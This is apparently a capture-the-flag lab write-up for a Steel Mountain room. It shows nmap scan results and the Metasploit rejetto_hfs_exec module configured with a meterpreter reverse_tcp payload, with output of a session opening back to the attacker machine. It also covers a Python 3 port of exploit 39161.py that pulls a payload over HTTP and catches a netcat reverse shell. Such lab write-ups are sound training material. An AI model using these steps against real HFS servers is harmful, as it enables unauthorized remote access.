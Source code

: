 ***

Author: dxWiz  
Date: 24 Mar 2022

***

# Task 1 Introduction 

Pretty straight forward, start the machine and go to the machine url and look for your answer in the source code to find out who is the employee of the month.

# Task 2 Initial Access  

Do an nmap scan `nmap -sC -sV $IP` and the scan result will lead you to the answer for question 1. 

    PORT      STATE SERVICE            VERSION
    80/tcp    open  http               Microsoft IIS httpd 8.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Site doesn't have a title (text/html).
    |_http-server-header: Microsoft-IIS/8.5
    135/tcp   open  msrpc              Microsoft Windows RPC
    139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    | rdp-ntlm-info: 
    |   Target_Name: STEELMOUNTAIN
    |   NetBIOS_Domain_Name: STEELMOUNTAIN
    |   NetBIOS_Computer_Name: STEELMOUNTAIN
    |   DNS_Domain_Name: steelmountain
    |   DNS_Computer_Name: steelmountain
    |   Product_Version: 6.3.9600
    |_  System_Time: 2022-03-22T11:49:13+00:00
    | ssl-cert: Subject: commonName=steelmountain
    | Not valid before: 2022-03-21T11:45:50
    |_Not valid after:  2022-09-20T11:45:50
    |_ssl-date: 2022-03-22T11:49:19+00:00; +2s from scanner time.
    8080/tcp  open  http               HttpFileServer httpd 2.3  
    |_http-server-header: HFS 2.3
    |_http-title: HFS /
    49152/tcp open  msrpc              Microsoft Windows RPC
    49153/tcp open  msrpc              Microsoft Windows RPC
    49154/tcp open  msrpc              Microsoft Windows RPC
    49155/tcp open  msrpc              Microsoft Windows RPC
    49156/tcp open  msrpc              Microsoft Windows RPC
    49163/tcp open  msrpc              Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

To find the name of the file server, just go to $IP:8080 and take note of the create url of the file server.

Run `searchsploit rejetto http file server 2.3 -w` to find the answer for the CVE number.

Start metasploit with the command `msfconsole` and `search http file server 2.3`

    0  auxiliary/server/android_mercury_parseuri                                normal     No     Android Mercury Browser Intent URI Scheme and Directory Traversal Vulnerability
    1  exploit/linux/smtp/apache_james_exec                    2015-10-01       normal     Yes    Apache James Server 2.3.2 Insecure User Creation Arbitrary File Write
    2  exploit/multi/http/git_client_command_exec              2014-12-18       excellent  No     Malicious Git and Mercurial HTTP Server For CVE-2014-9390
    3  exploit/windows/http/rejetto_hfs_exec                   2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
    4  exploit/windows/scada/codesys_gateway_server_traversal  2013-02-02       excellent  No     SCADA 3S CoDeSys Gateway Server Directory Traversal
    
`use 3` and then `show options` to see what are the required parameters to set. We begin by `set RHOSTS $IP` and `set RPORT 8080`. Also `set LHOST` to attacker machine IP. Final setting will be like below:

    msf6 exploit(windows/http/rejetto_hfs_exec) > show options

    Module options (exploit/windows/http/rejetto_hfs_exec):

     Name       Current Setting  Required  Description
     ----       ---------------  --------  -----------
     HTTPDELAY  10               no        Seconds to wait before terminating web server
     Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
     RHOSTS     <Target>$IP      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
     RPORT      8080             yes       The target port (TCP)
     SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                            or 0.0.0.0 to listen on all addresses.
     SRVPORT    8080             yes       The local port to listen on.
     SSL        false            no        Negotiate SSL/TLS for outgoing connections
     SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
     TARGETURI  /                yes       The path of the web application
     URIPATH                     no        The URI to use for this exploit (default is random)
     VHOST                       no        HTTP server virtual host


    Payload options (windows/meterpreter/reverse_tcp):

     Name      Current Setting  Required  Description
     ----      ---------------  --------  -----------
     EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
     LHOST     <Attacker>$IP     yes       The listen address (an interface may be specified)
     LPORT     4444             yes       The listen port


To run the exploit, just type `run` or `exploit` and wait patiently until you see below 

    msf6 exploit(windows/http/rejetto_hfs_exec) > run

    [*] Started reverse TCP handler on 10.11.56.137:4444 
    [*] Using URL: http://0.0.0.0:8080/hofayz
    [*] Local IP: http://10.0.2.15:8080/hofayz
    [*] Server started.
    [*] Sending a malicious request to /
    [*] Payload request received: /hofayz
    [*] Sending stage (175174 bytes) to 10.10.40.39


    [*] Meterpreter session 5 opened (<Attacker>$IP:4444 -> <Target>$IP:49298 ) at 2022-03-24 12:02:09 -0400
    [*] Server stopped.
    [!] This exploit may require manual cleanup of '%TEMP%\KxkkPLaE.vbs' on the target

    meterpreter > 

Go to C:\users\bill\desktop and `type user.txt` to get the flag for the last question

# Task 3 Privilege Escalation 

Just follow the instrcution and use metasploit to continue with the studies.

# Task 4 Access and Escalation Without Metasploit (python3 friendly)

For this task, in the latest release of python, urllib2 is gone and hence we need to use a tool name 2to3 to convert the exploit script 39161.py to a python3 friend 39161.py with the following command

`2to3 39161.py -w` this will create a backup of the original script and rewrite the script to python version3. If you do not have 2to3 in your machine, just install it `sudo apt install 2to3`

By now you should be ready with the new script. Start a simple HTTP server `python3 -m http.server` and listen to a port of your choice with `nc` and then try running the script twice as instructed. You should be able to get a callback.
